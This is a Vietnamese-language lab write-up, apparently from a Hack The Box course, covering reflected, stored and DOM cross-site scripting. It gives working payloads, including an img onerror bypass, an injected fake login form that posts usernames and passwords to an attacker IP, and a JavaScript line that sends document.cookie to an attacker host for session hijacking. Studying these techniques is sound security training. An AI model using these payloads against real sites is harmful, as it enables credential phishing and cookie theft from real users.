 # Reflected XSS

![Screenshot 2025-05-09 012554](https://github.com/user-attachments/assets/a9bf5e3b-80e3-4c0c-9469-858fe8a31364)

![Screenshot 2025-05-09 013154](https://github.com/user-attachments/assets/d315fd9f-8b40-4742-bebb-1673aa5f4f35)

> <script>alert('heloooo')</script>

![Screenshot 2025-05-09 013237](https://github.com/user-attachments/assets/b7cf1b2b-1be1-42be-a64b-8dd5a693aee3)

![image](https://github.com/user-attachments/assets/3cf85edc-c839-4f7d-a543-c4cfa3fcd176)

# Stored XSS cũng giống 

Xuất hiện mỗi lần bạn mở lại trang (mà bạn không cần gửi lại dữ liệu từ input hay URL) 

# DOM XSS

![image](https://github.com/user-attachments/assets/10427616-f046-4fa7-931e-06e663b051d6)

Lần này payload không hoạt động, vì payload được gán thẳng vào innerHTML

![image](https://github.com/user-attachments/assets/82bc8f55-fa28-444a-aaa3-77026b2a06fb)

Có lẻ innerHTML không chạy các thẻ <script> nhưng <img thì được

Ta sẽ gửi một payload như sau 

> <img src="" onerror="alert('aaaa')>

khi ảnh không được tải lên thì sự kiện onerror sẽ thực thi và khi đó

![image](https://github.com/user-attachments/assets/3a98aa17-0013-4485-b1ce-11f96f4475be)

# Phisinggg

![Screenshot 2025-05-09 142539](https://github.com/user-attachments/assets/9523ba51-a53f-4500-adf7-ba65a032a4fc)

Nó cho phép ta nhập vào 1 url hình ảnh vào hiển thị chúng 

![Screenshot 2025-05-09 143254](https://github.com/user-attachments/assets/43d153eb-ee6e-43d7-b98c-2bc5937a1e58)
![Screenshot 2025-05-09 143349](https://github.com/user-attachments/assets/3fd6f1d2-26e7-487e-8cf5-55cab3cdf3ef)

Tiếp theo tôi sẽ tiêm vào một form đăng nhập

![Screenshot 2025-05-09 144552](https://github.com/user-attachments/assets/ce5847b0-92c3-4ec4-9601-3e6b61436cf0)

Tiếp theo tôi chuẩn bị mã XSS thử nghiệm trên biểu mẫu dễ bị tấn công trên, tôi sử dụng hàm trong javascript là document.write() nó có chức năng ghi nội dung trực tiếp ra trang html.

``` document.write('<h3>Please login to continue</h3><form action=http://10.10.15.205><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById('urlform')?.remove()</script><!-- ```

10.10.15.205 sẽ là IP của máy mà chúng ta dùng để lắng nghe thông tin của nạn nhân

Ta được 1 form đăng nhập như này

![image](https://github.com/user-attachments/assets/d656c6e6-0ad3-4f17-a89e-e42d2683fde3)

Bây giờ ta phải làm sao để khi nạn nhân đăng nhập nó sẽ chuyển hướng đến giao diện nhập url ban đầu

![image](https://github.com/user-attachments/assets/d21c5e33-5763-4a31-99db-d3c0c69a97e7)

Ta tạo 1 thư mục tạm vào chèn đoạn mã sao vào file index.php

![image](https://github.com/user-attachments/assets/9f5f9acf-e211-4f7d-9699-4a016774934f)


Bây giờ chúng ta khởi động máy chủ php để lắng nghe, có thể sử dụng thay cho netcat

> sudo php -S 0.0.0.0:80

![image](https://github.com/user-attachments/assets/8b5996ef-2180-47a4-9f3c-7391426002e4)

Ta được thông tin của nạn nhân, Ví dụ nếu trang web hackthebox.com có lỗi tương tự thì ta sẽ có được tài khoảng htb của nạn nhân

# Chiếm đoạt phiên

![Screenshot 2025-05-13 203851](https://github.com/user-attachments/assets/d00f94c8-c17f-45c8-85b5-c9e7628590ff)


- index.js

<pre lang="markdown"> ```javascript new Image().src='http://OUR_IP/index.php?c='+document.cookie ``` </pre>

- chèn mã sau vào lỗ hổng XSS tìm được

<pre lang="markdown"> ```<script src=http://OUR_IP/script.js></script> ``` </pre>

- Gửi nó vào trường đầu vào dễ bị tấn công và ta sẽ nhận được lệnh gọi đến máy chủ với giá trị cookie
- Nhưng có nhiều cookie ta có thể không biết giá trị cookie nào thuộc về tiêu đề cookie nào, đây là tập lệnh php để chia chúng thành dòng mới và ghi chúng vào một tệp

![Screenshot 2025-05-13 203809](https://github.com/user-attachments/assets/5611bda4-23de-4285-be14-6db5ea04aaf4)

Ta nên bật trình lắng nghe trên VM bằng netcat hawojc bằng php

![Screenshot 2025-05-13 204029](https://github.com/user-attachments/assets/d970a3bb-5a79-4ede-9b27-cb6fc348f9a7)

Khi nạn nhân đăng nhập vào ta sẽ nhận được cookie của người đó

![Screenshot 2025-05-13 204128](https://github.com/user-attachments/assets/06963a52-089a-49be-9948-21e5fb761bac)

























